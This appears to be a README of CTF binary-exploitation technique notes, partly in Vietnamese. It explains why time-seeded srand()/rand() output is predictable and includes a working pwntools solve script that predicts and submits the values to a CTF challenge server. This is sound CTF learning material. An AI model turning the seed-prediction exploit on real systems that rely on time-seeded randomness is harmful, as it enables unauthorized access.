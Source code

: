 # zAttack
- Technique and subTechnique support pwnable ctf and exploit.

## [0] Overview
- &environ
- rtld_global
- Canary global TLS
- .fini_array
- Type of Confusion | Type Error
- Command Injection
- Path Traversal
- CGI File Binary
- Logic BUG: seed, permission, ...
    * __RANDOM => seed__: dùng seed có giá trị là thời gian thực lúc chạy chương trình, vì vậy tạo 1 script chạy cùng là xong

    * Nhiệm vụ của srand(x) đưa ra seed x rồi rand() dựa vào x đưa ra số a. Khi đó a là seed cho lần gọi rand() tiếp theo (cứ như thế tiếp tục). Do vậy VD trong vòng lặp thời gian 1 giây rand() dùng seed cũ liên tục nên nó không bao giờ ra số khác nhau trong khoảng thời gian đó.

    * VD: [Meshuggah](https://qbao.home.blog/2020/04/30/start-to-pwnb01lers-ctf/) .
    ```bash
    asm:
        mov edi, 0      ; time
        call _time
        add eax, 2
        mov edi, eax    ; seed
        call _srand
    ```

    ```C
    int main(){
        int seed = time(0) + 2;
        srand(seed);
        for(int i = 0; i < 100; i++)
            printf("%d\n", rand());
        return 0;
    }
    ```
    * Code sample python
    ```python
    from ctypes import CDLL
    from ctypes.util import find_library

    libc = CDLL(find_library("c"))

    libc.srand(0x5a35b162)
    print(libc.rand(), libc.rand(), libc.rand())
    ```
    ```python
    #!/usr/bin/env python3
    from pwn import *
    import random
    import time
    import calendar
    import datetime
    from ctypes import *
    import random
    elf = ELF("./random")
    libc = CDLL("/usr/lib/x86_64-linux-gnu/libc.so.6")
    # p = elf.process()
    p = remote("challs.tfcctf.com", "32615")
    context.update(binary=elf, log_level="DEBUG")
    # gdb.attach(p, '''
    # 	b *vuln
    # 	''')

    current_GMT = time.gmtime()
    time_stamp = calendar.timegm(current_GMT)
    libc.srand(time_stamp)
    print(p.recvline())
    for i in range(10):
        number = libc.rand()
        p.sendline(str(number).encode())


    p.interactive()
    ```

## [1] References:
- https://dreamhack.io/